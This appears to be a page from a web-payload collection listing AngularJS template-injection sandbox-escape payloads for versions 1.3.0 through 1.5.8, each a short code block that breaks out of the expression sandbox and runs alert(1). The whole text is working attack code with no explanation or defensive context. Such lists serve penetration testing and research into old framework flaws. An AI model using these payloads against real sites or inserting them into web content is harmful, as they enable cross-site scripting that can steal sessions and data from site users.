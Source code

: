AngularJS 1.5.0 - 1.5.8

```javascript
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

AngularJS 1.4.0 - 1.4.9

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

AngularJS 1.3.20

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

AngularJS 1.3.19

```javascript
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.3 - 1.3.18

```javascript
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

AngularJS 1.3.1 - 1.3.2

```javascript
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.0

```javascript
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
